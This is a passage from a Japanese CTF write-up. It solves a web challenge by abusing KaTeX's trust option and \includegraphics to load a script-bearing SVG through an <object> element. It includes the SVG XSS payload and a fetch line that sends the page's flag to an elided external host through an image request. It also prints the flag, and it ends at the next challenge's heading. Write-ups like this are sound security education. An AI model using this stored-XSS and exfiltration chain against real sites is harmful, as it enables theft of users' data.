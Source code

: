 ```html
    <script>
      const articles = document.querySelectorAll(".content")
      for (let el of articles) {
        katex.render(el.innerHTML, el, {
          throwOnError: false,
          trust: (context) => true
        })
      }
    </script>
  </body>
</html>
```

プロフィール画像のアップロードと、メッセージ (LaTeX) の投稿ができる Web アプリケーションのようです。素直な XSS ができないか `<s>neko</s>` を投稿してみましたが、`&lt;s&gt;neko&lt;/s&gt;` に変換されてしまいます。[KaTeX](https://katex.org/) の仕様を使って XSS しろということでしょう。

KaTeX について調べます。以下のように `katex.render` に `trust: (context) => true` というオプションが付けられていますが、これはどういうことでしょうか。

```javascript
        katex.render(el.innerHTML, el, {
          throwOnError: false,
          trust: (context) => true
        })
```

[ドキュメント](https://katex.org/docs/options.html)を見てみると、`url` や `includegraphics` などのオプションを使用可能にするオプションのようだとわかりました。上記の HTML からわかる通りこのアプリケーションにはスタンプ機能があり、ボタンを押すと画像を投げることができます。これは `\includegraphics[]{/stamp(スタンプ ID).png}` を投稿することで実現されている機能で、つまりは `includegraphics` を使えというヒントなのでしょう。

適当なスタンプを投げて DevTools で確認すると、`\includegraphics[]{/stamp1.png}` は `<object data="/stamp1.png" class="mord" style="height: 0.9em;"></object>` に変換されていることが確認できます。SVG ファイル中に JavaScript コードが含まれる場合、`img` 要素で読み込んだ場合には実行されませんが、`object` 要素の場合には実行されることに注目します。JavaScript を含む SVG ファイルをプロフィール画像としてアップロードし、これで読み込めないか試してみましょう。

まず、以下のような内容の `payload.svg` という SVG ファイルをアップロードします。

```xml
<?xml version="1.0" encoding="utf-8"?>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <script>
        alert(1);
    </script>
</svg>
```

`\includegraphics[]{/images/payload.svg}` というメッセージを投稿するとアラートが表示されました。やった!

実行するコードを `fetch('/').then(resp => resp.text()).then(resp => { (new Image).src = 'http://(省略)?' + encodeURIComponent(resp.match(/NITAC\{.+\}/g)[0]); });` に変えて再度アップロードし、`公開する` にチェックを入れた状態で `\includegraphics[]{/images/payload.svg}` を投稿すると、管理者がこれを閲覧してフラグが得られました。

```
NITAC{wh4t_a_beaut1ful_f0rmu1a}
```

## [Web 100] Admin Portal 1 (27 solves)
> 工事中のサイトなので新規登録できません…… (URL)
> 
> 添付ファイル: adminportal.tar.gz
